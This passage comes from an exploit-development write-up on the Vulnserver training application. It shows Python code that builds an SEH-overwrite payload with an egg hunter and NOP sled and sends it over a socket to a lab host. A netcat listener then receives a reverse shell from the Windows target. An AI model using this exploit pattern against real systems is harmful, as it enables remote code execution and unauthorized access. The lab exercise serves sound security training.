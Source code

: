 ```c
payload=b""
payload+=b"A"*1500
## egg
payload+=egg
## shellcode
payload+=buf
## NOP sled
payload+=b"\x90"*(3549-70-len(payload))
## egg hunter
payload+=egghunter
payload+=b"\x90"*(3549-len(payload))

# to overwrite nSEH
payload+=nseh

# to overwrite SEH
payload+=seh

# padding
payload+=b"D"*(5000-len(payload))

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()
```

Since we are running this application as a high privileged user, by running this exploit we should gain shell as the same user

Lets try running our exploit when the application is running as privileged user without debugger,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 exploit.py
```

By running our final exploit we will get our shell on the target machine

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ nc -nlvp 9876
listening on [any] 9876 ...
connect to [192.168.116.128] from (UNKNOWN) [192.168.116.140] 49792
Microsoft Windows [Version 10.0.19044.1288]
(c) Microsoft Corporation. All rights reserved.

C:\vulnserver-master\vulnserver-master>whoami
whoami
vulnserver\winexp

C:\vulnserver-master\vulnserver-master> 
```


